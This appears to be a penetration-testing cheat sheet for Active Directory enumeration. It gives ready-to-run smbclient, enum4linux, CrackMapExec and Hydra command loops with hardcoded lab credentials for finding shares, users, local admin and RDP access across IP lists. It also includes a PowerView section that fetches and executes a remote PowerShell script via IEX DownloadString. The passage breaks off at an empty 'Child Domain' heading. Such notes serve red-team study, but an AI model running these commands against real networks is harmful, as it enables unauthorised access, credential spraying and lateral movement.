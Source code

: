 ### Find Open Shares
```
# Test Open Shares
smbclient -U "Marvel\hsaad%P@ssw0rd" -L 10.0.2.6

# Access Shares
smbclient -U "Marvel\hsaad%P@ssw0rd" \\\\172.31.2.112\\SYSVOL

# Script to Automate
for ip in $(cat ips.txt);do
(smbclient -U "Marvel\hsaad%P@ssw0rd" -L $ip | grep Disk | cut -d " " -f 1 | sed 's/\t//' | while read shares;do echo "\\\\\\\\$ip\\\\"$shares | tee -a shares.txt;done) & sleep 1
done
cat shares.txt | while read share;do
echo $share >> shares-files.txt
smbclient -U "Marvel\hsaad%P@ssw0rd" $share -c "dir" | tee -a shares-files.txt;
done
```

### Enum4Linux
```
enum4linux -u Marvel/hsaad -p P@ssw0rd -a 10.0.2.100 // enumerate all
enum4linux -u Marvel/hsaad -p P@ssw0rd -U 10.0.2.100 // enumerate users
enum4linux -u Marvel/hsaad -p P@ssw0rd -G 10.0.2.100 // enumerate groups
enum4linux -u Marvel/hsaad -p P@ssw0rd -P 10.0.2.100 // enumerate password policy
enum4linux -u Marvel/hsaad -p P@ssw0rd -S 10.0.2.100 // enumerate shares
enum4linux -a 10.0.2.100 // enumerate all using null session if exists
```

### CrackMapExec
```
# Find local admin on IP list based on username and password
for line in $(cat IP.txt);do
crackmapexec smb $line -d Marvel.local -u hsaad -p P@ssw0rd | tee -a crack.log & sleep 2;
done
```

### Hydra
```
# Find RDP access on IP list based on username and password
for line in $(cat IP.txt);do
hydra -l hsaad -p P@ssw0rd -m Marvel.local -t 1 $line rdp | tee -a hydra.log & sleep 2;
done
```

## Enumerations From Joined Domain Windows Machine

### Powerview
```
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1")

# Authentication
runas /netonly /user:mydomain\username powershell

# Domain Info
Get-Domain -Domain Marvel.local

# Root Domain
Get-DomainController -Domain Marvel.local | select forest,domain,name,osversion,ipaddress

# Child Domain
```